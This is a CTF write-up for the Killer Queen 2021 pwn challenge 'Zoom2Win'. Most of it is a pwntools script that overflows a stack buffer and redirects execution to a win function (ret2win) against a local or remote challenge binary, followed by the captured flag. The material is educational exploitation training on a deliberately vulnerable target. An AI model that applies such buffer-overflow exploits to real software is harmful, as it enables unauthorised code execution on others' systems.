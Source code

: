 ```yaml
---
name: Zoom2Win (2021)
event: Killer Queen CTF 2021
category: Pwn
description: Writeup for Zoom2Win (pwn) - Killer Queen CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Zoom2Win

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/xOHLniVJsJY/0.jpg)](https://youtu.be/xOHLniVJsJY?t=707s "Killer Queen 2021: Zoom2Win")

## Challenge Description

> What would CTFs be without our favorite ret2win

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

def find_eip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendline(payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    eip_offset = cyclic_find(p.corefile.read(p.corefile.rsp, 4))
    info('located EIP offset at {a}'.format(a=eip_offset))
    # Return the EIP offset
    return eip_offset

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './zoom2win'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP offset
offset = find_eip(cyclic(100))

ret = 0x40101a  # Ret gadget from ropper (stack alignment)

# Start program
io = start()

# Build the payload
payload = flat({offset: [ret, elf.symbols.flag]})

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendline(payload)
io.recvline()

# Get our flag!
flag = io.recv()
success(flag)
```
{% endcode %}

Flag: `kqctf{did_you_zoom_the_basic_buffer_overflow_?}`
